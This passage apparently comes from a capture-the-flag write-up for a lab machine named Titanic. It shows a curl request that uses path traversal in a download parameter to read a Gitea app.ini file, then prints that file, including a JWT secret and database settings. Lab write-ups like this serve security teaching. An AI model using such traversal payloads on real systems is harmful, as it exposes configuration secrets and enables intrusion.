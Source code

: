 ```shell
curl "http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/conf/app.ini"
```

Info:

```
APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

[repository]
ROOT = /data/git/repositories

[repository.local]
LOCAL_COPY_PATH = /data/gitea/tmp/local-repo

[repository.upload]
TEMP_PATH = /data/gitea/uploads

[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

[indexer]
ISSUE_INDEXER_PATH = /data/gitea/indexers/issues.bleve

[session]
PROVIDER_CONFIG = /data/gitea/sessions
PROVIDER = file

[picture]
AVATAR_UPLOAD_PATH = /data/gitea/avatars
REPOSITORY_AVATAR_UPLOAD_PATH = /data/gitea/repo-avatars

[attachment]
PATH = /data/gitea/attachments

[log]
MODE = console
LEVEL = info
ROOT_PATH = /data/gitea/log

[security]
```